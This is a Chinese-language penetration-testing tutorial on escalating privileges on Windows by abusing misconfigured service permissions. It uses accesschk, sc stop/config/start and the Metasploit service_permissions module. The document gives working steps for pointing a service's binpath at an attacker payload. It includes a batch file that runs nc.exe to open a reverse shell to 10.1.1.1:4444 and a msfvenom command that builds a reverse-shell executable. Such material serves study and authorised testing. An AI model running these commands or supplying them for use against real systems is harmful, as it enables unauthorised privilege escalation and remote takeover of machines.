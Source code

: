# 不安全的服务权限


# MSF 模块
Metasploit Module: exploit/windows/local/service_permissions


由于管理配置错误，用户可能对服务拥有过多的权限，例如，可以直接修改它。

## 方法一：accesschk

`accesschk.exe` 是一款微软官方开发，用于检测特定用户或组对资源（包括文件、目录、注册表键、全局对象和Windows服务）的访问权限的工具。

### 安装和使用
- 下载地址：https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk
- 介绍文档：https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk


`AccessChk`工具还可以用来查找用户可以修改的服务：

```
C:\Users\user\Desktop>accesschk.exe -uwcqv "user" * 
accesschk.exe -uwcqv "user" *

Accesschk v6.02 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

RW Vulnerable Service
 SERVICE_ALL_ACCESS

C:\Users\user\Desktop>
```
如果成功找到目标服务，则可以尝试利用。

## 方法二：sc 命令

先使用vmic 查询所有正在运行的服务：

```
wmic service where started=true get name, startname
```

然后使用 `sc` 命令查询对每个服务是否有控制权：

```
C:\Users\user\Desktop>sc stop "Service"
sc stop Service

SERVICE_NAME: UsoSvc 
        TYPE               : 30  WIN32  
        STATE              : 3  STOP_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x3
        WAIT_HINT          : 0x7530
```
如果能够成功关闭服务，说明可能能够利用。

接下来我们需要查看是否能修改服务的 `binpath`，如果能修改则可以利用它：

```
C:\Users\user\Desktop>sc config "Service" binpath="C:\malicious.exe"
sc config "Vulnerable" binpath="C:\malicious.exe"
[SC] ChangeServiceConfig SUCCESS

```

其中 `malicious.exe` 可以使用简单的 `xx.bat` 文件，也可以使用 `msfvenom` 来生成。

我们先尝试简单的 bat 文件：

```
echo c:\windows\temp\nc.exe 10.1.1.1 4444 -e cmd > reverse.bat
```
然后将 binpath 设置为 reverse.bat 路径。

**如果遇见报错，或反弹 shell 成功后又快速断开，那么可以再尝试 msfvenom。**

例如：

```
msfvenom -p windows/shell_reverse_tcp lhost=10.1.1.1 lport=4444 -f exe --platform windows >reverse.exe
```

![](https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/31DF2A64-01FF-40B1-94F2-CBADBAC17DE5.png)

修改后，必须重新启动服务才能执行二进制文件。

可以手动重启服务:

```
sc stop "VulnerableService"
sc start "VulnerableService"

```

启动时可能会抛出错误消息：

```
C:\Users\user\Desktop>sc start "ServiceName"
sc start "ServiceName"
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

当Windows执行服务时，它们应与Windows服务控制管理器通信。如果不这样做，SCM就会杀死这个进程。通过使用执行自动迁移到新进程的payload，手动迁移进程，或者在执行后将服务的bin路径设置回原始服务二进制文件，可以解决这个问题。


# Reference

- `https://xz.aliyun.com/t/2519`

